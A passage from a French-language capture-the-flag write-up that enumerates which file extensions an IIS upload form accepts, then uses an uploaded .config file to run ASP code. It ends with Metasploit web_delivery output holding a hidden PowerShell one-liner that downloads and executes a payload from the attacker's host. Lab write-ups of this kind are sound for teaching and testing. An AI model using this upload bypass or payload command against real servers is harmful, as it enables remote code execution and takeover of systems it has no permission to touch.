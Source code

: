 ```python
        for input_field in soup.find_all("input", attrs={"name": True, "type": "hidden", "value": True}):
            data[input_field["name"]] = input_field["value"]

        response = sess.post(
            "http://10.10.10.93/transfer.aspx",
            data=data,
            files=files,
            headers={"referer": "http://10.10.10.93/transfer.aspx"}
        )

        if "Invalid File. Please try again" in response.text:
            print("Failed!")
            failed.add(ext)

        elif "File uploaded successfully." in response.text:
            print("Success!")
            succeed.add(ext)
        else:
            print(response.text)
            errored.add(ext)

print("succeed", succeed)
print("failed", failed)
print("errored", errored)
```

L'output est le suivant :  

```plain
succeed {'.01.jpg', '.opml.config', '.jpg', '.gif', '.003.l.jpg', '.thumb.jpg', '.001.l.jpg', '.l.jpg', '.png', '.docx', '.doc', '.002.l.jpg', '.003.jpg', '.004.jpg', '.0.jpg', '.config', '.xls', '.004.l.jpg', '.006.l.jpg', '.01-l.jpg', '.doc.doc', '.jpg.jpg', '.xlsx', '.jpeg'}
```

L'extension autorisée qui saute aux yeux est clairement le *.config*. C'est un peu l'équivalent IIS du *.htaccess*. L'extension est notamment mentionnée sur [le guide OWASP pour les failles d'upload de fichier](https://www.owasp.org/index.php/Unrestricted_File_Upload).  

Mais surtout on trouve un article de blog indiquant [qu'il est possible de placer de l'ASP](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) dans le fichier *.config* et de le faire exécuter. C'est un peu la version Windows de [ce que j'ai pu faire sur le CTF Darknet](http://devloop.users.sourceforge.net/index.php?article160/solution-du-ctf-darknet-de-vulnhub). Rejoice !  

Encore faut-il s'avoir quoi mettre comme instructions ASP... Une recherche rapide permet de s'avoir comment exécuter un programme externe, il suffit alors de coupler ça avec (par exemple) le module web-delivery de Metasploit :  

```plain
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 3.

[*] Started reverse TCP handler on 10.10.14.21:139 
[*] Using URL: http://10.10.14.21:80/6ZBEmkVKkU
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $o=new-object net.webclient;$o.proxy=[Net.WebRequest]::GetSystemWebProxy();$o.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $o.downloadstring('http://10.10.14.21/6ZBEmkVKkU');
```
